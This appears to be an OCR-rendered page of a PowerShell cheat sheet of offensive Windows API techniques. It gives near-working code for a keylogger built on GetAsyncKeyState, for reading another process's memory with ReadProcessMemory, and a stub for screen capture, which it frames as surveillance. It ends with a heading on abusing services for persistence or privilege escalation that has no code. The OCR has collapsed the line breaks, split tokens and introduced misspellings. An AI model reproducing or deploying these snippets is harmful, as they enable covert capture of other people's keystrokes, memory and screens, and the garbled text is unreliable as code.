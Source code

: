 ### Invoke Windows API for Keylogging

This script uses a Windows API call to check the state of each key on the keyboard, eectively logging
keystrokes. It can be used to capture user input.

```powershell
Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class KeyLogger
{ [DllImport("user32.dll")] public static extern int GetAsyncKeyState(Int32 i); } "@ while ($true) {
Start-Sleep -Milliseconds 100 for ($i = 8; $i -le 190; $i++) { if ([KeyLogger]::GetAsyncKeyState($i) -
eq -32767) { $Key = [System.Enum]::GetName([System.Windows.Forms.Keys], $i) Write-Host $Key } } }
```

### Accessing Physical Memory with Windows API

This PowerShell script uses the ReadProcessMemory function from the Windows API to read a specied amount of memory from a process. It’s useful for extracting information from running processes.

```powershell
Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class
MemoryReader { [DllImport("kernel32.dll")] public static extern bool ReadProcessMemory(IntPtr hProcess,
IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead); } "@ $process = Get-Process -Name 'process_name' $handle = $process.Handle $buffer = New-Object byte[] 1024 $bytesRead
= 0 [MemoryReader]::ReadProcessMemory($handle, [IntPtr]0x00000000, $buffer, $buffer.Length,
[ref]$bytesRead)
```

### Using Windows API for Screen Capturing

This script demonstrates how to use Windows API calls to capture the screen. It can be used for surveillance or information gathering.

```powershell
Add-Type -TypeDefinition @" using System; using System.Drawing; using System.Runtime.InteropServices;
public class ScreenCapture { [DllImport("user32.dll")] public static extern IntPtr GetDesktopWindow();
[DllImport("user32.dll")] public static extern IntPtr GetWindowDC(IntPtr hWnd);
[DllImport("gdi32.dll")] public static extern bool BitBlt(IntPtr hObject, int nXDest, int nYDest, int
nWidth, int nHeight, IntPtr hObjectSource, int nXSrc, int nYSrc, int dwRop); } "@ $desktop =
[ScreenCapture]::GetDesktopWindow() $dc = [ScreenCapture]::GetWindowDC($desktop) # Further code tocode
perform screen capture goes here
```

### Manipulating Windows Services via API

This script uses Windows API calls to interact with Windows services, such as creating, starting, or modifying them. This can be used for persistence or privilege escalation.
